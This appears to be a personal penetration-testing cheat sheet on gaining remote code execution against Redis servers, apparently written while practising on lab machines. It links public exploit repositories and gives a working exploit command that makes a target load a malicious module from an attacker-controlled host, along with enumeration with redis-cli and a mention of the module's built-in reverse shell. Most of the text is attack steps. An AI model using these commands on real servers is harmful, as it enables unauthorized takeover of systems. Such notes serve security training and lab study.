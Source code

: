 # Redis

https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html?highlight=redis#redis-rce

https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html

```bash
# if version is <=5.0.5
can use the rogue server exploit and gain RCE

# if rougeserver cannot, use the py script from here

https://github.com/Ridter/redis-rce

# and then supply the exp.so from https://github.com/n0b0dyCN/redis-rogue-server/blob/master/exp.so

# You may need to define a custom port that is open on the host!

python exploit.py -r 192.168.113.69 -L 192.168.45.152 -P 80 -f exp.so

# if need AUTH, just add a -a <password>

# try connecting to it and enumerating

redis-cli -h <ip>

# if there is no auth, the info command will run

192.168.131.93:6379> info

# try all the different techniques. what worked for the PG Box Sybaris was the Load Redis Module

if you compile the module, you need to find some way to upload it and know the full path to the upload folder

the module itself has an inbuilt reverse shell. Refer to the Sybaris writeup (on google)

```
